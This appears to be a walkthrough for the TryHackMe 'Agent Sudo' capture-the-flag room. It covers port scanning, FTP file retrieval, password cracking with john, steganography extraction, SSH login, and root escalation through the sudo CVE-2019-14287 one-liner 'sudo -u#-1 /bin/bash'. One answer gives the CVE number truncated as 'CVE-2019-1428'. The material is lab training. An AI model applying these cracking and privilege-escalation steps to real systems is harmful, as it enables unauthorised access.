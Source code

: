 

# Agent Sudo

room：https://tryhackme.com/room/agentsudoctf

### 1.Enumerate

1.nmap and gobuster

```
nmap -sC -sV(-sS -sV) MACHINE_IP
gobuster dir -u MACHINE_IP  -w /usr/share/wordlists/dirb/common.txt -t 50 
```

How many open ports?

```
3
```

How you redirect yourself to a secret page?

```
user-agent
```

![image-20221127152826263](https://user-images.githubusercontent.com/115979342/204274189-41ca161b-fe7b-4494-bdca-5f36dc76ddfd.png)
What is the agent name?

```
chris
```



### 2.Hash cracking and brute-force

FTP password

<img width="912" alt="image-20221127152929563" src="https://user-images.githubusercontent.com/115979342/204274238-80c704aa-4ff9-493e-b5a7-b6d74ca6f87f.png">

```
*
```

use ftp login to get file

![image-20221127152956848](https://user-images.githubusercontent.com/115979342/204274268-4dfc6d95-3499-4f2d-a031-d4d03ed1f228.png)

```bash
mget *
```

To_agentJ.txt useful message:

```bash
root@aoiri:~/tryhackme/agentsudo# cat To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
```

use binwalk

![image-20221127153116310](https://user-images.githubusercontent.com/115979342/204274540-25e1e0ab-7db0-4922-bc66-03b3eeee9339.png)


```
binwalk cutie.png -e
```

get the zip file and use zip2john crack the zip pasword:

![image-20221127153312804](https://user-images.githubusercontent.com/115979342/204274647-039a3996-e848-4974-abab-5e1576008a04.png)

```bash
zip2john 8702.zip > zip.hash
john zip.hash

```


Zip file password

```
*
```

steg password

txt file has the encrypted string "QXJlYTUx"

use magic in [CyberChef](https://gchq.github.io/CyberChef/)


```
*
```

Who is the other agent (in full name)?

```bash
steghide extract -sf cute-alien.jpg 
```


```bash
root@aoiri:~/tryhackme/agentsudo/tmp# cat message.txt 
Hi james,

Glad you find this message. Your login password is ************

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
root@aoiri:~/tryhackme/agentsudo/tmp#
```

```
james
```

SSH password

```
************
```

use ssh login

### 3.Capture the user flag

just cat.

What is the user flag?

```
*
```

What is the incident of the photo called?

`sudo scp james@10.10.235.17:Alien_autospy.jpg ~/`

Reverse image and Foxnews.

```
Roswell alien autopsy
```



### 4.Privilege escalation


CVE number for the escalation  (Format: CVE-xxxx-xxxx)

use `sudo -l`


use bash shell in gtfbins they are not working.

![image-20221128111812736](https://user-images.githubusercontent.com/115979342/204274988-fa21482a-7f1a-4c82-bc8c-9af4d6cb6fb8.png)

search on google about exploit

https://blog.aquasec.com/cve-2019-14287-sudo-linux-vulner

find it's sudo1.8.27 exploit

```
CVE-2019-1428
```

What is the root flag?

https://www.exploit-db.com/exploits/47502

use this to Privilege escalation

```
sudo -u#-1 /bin/bash
```

cat flag:

```
*
```

(Bonus) Who is Agent R?

```
Des...
```





























